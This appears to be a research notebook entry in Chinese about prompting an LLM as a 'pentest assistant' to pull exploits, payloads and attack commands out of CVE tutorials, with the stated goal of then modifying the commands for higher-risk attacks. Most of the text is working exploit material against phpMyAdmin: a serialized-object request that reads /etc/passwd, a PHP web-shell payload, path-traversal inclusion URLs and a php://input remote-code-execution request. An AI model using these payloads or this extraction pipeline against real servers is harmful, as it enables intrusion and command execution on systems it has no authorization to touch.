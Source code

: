 # 250716

研究的目标是要从一个网页教程中总结出三个关键信息，然后基于这三个信息做进一步的渗透利用，如修改attack_command，执行更高危的攻击操作

- input：一个/多个网页CVE漏洞的exploit教程
- output

  - exploit:  能够触发或利用漏洞的注入点
  - payloads：包含命令注入的攻击脚本，如木马程序、reverse shell
  - attack_command：真实想在目标靶机执行的操作
- example 1

  ```http
  POST /scripts/setup.php HTTP/1.1
  Host: your-ip:8080
  Accept-Encoding: gzip, deflate
  Accept: */*
  Accept-Language: en
  User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
  Connection: close
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 80

  action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}

  ```

  ```json
  {
    "exploits": [
      "POST /scripts/setup.php?action=test",
      "POST body parameter: configuration=<serialized PMA_Config>"
    ],
    "payloads": [
      "O:10:\"PMA_Config\":1:{s:6:\"source\";s:11:\"/etc/passwd\";}",
      "O:10:\"PMA_Config\":1:{s:6:\"source\";s:XX:\"<?php system($_GET['cmd']); ?>\";}"
    ],
    "attack_commands": [
      "/etc/passwd",
      "execute system($_GET['cmd']) (RCE)"
    ]
  }

  ```
- example 2
  link: [https://github.com/vulhub/vulhub/blob/master/phpmyadmin/CVE-2018-12613/README.zh-cn.md]()

  ```json
  {
    "exploits": [
      "GET /index.php?target=db_sql.php%253f/../../../../../../etc/passwd",
      "GET /index.php?target=db_sql.php?/../../../../../../tmp/sess_<session_id>"
    ],
    "payloads": [
      "select '<?php phpinfo()?>'",
      "<?php phpinfo()?> injected into session file"
    ],
    "attack_commands": [
      "read /etc/passwd",
      "execute phpinfo() via session inclusion"
    ]
  }

  ```

## prompt

- 参考论文：Structured Chain-of-Thought Prompting for Code Generation ，TOSEM 2025
  ![My Image](image\250716\1752674818748.png)
- prompt

  ```
  You are a helpful pentest assistant. Please carefully read this web-based tutorial, understand how it triggers or exploits the vulnerability through injection points, and organize the tutorial content in a tree structure format. Make it simple and easy to read for beginners.

  Please note:
  - The task descriptions in the tree structure should be as concise as possible.
  - Necessary details should be written in natural language.
  - Specific attack commands should be marked using bullet points (-) in markdown format.
  - All outputs should be in Markdown format.

  Web tutorial url: {URL}
  Output Example: Pentest Task Tree
  1. Port scanning
    - nmap -sC -sV {port} {target_ip}
    - Services are FTP, SSH, and Web Service.
  2.Perform the testing
    2.1 Test FTP Service
      2.1.1 Test Anonymous Login
      2.1.1.1 Test Anonymous Upload
    2.2 Test SSH Service 
      2.2.1 Brute-force 
    2.3 Test Web Service 
      2.3.1 Directory Enumeration
          2.3.1.1 Find hidden admin
          2.3.2 Injection Identification
  ```
- output

  ```markdown
  # Pentest Task Tree – CVE-2018-12613 (phpMyAdmin LFI → RCE)

  ## 1. Prepare Environment
  ### 1.1 Download and launch vulnerable phpMyAdmin
  - `docker-compose up -d`

  ### 1.2 Access phpMyAdmin service
  - Open browser at `http://your-ip:8080`

  ## 2. Understand the Vulnerability
  ### 2.1 Version affected
  - phpMyAdmin ≤ 4.8.1 has an improper input validation on the `target` parameter in `index.php`.

  ### 2.2 Type of vulnerability
  Allows **Local File Inclusion (LFI)**, including special streams like `php://input`.

  ## 3. Confirm Local File Inclusion (LFI)
  ### 3.1 Attempt to include sensitive file
  - `http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../../etc/passwd`

  ### 3.2 Expected result
  Page should display contents of `/etc/passwd`.

  ## 4. Achieve Remote Code Execution (RCE)
  ### 4.1 Use `php://input` for payload injection
  Craft a URL to include the `php://input` stream:
  - `http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../../php://input`

  ### 4.2 Send POST payload with PHP code
  Send a POST request that includes PHP code to execute a system command:
  - 
    ```http
    POST /index.php?target=db_sql.php%253f/../../../../../../../../../php://input HTTP/1.1
    Host: your-ip:8080
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 31

    <?php echo shell_exec("id"); ?>
  ```
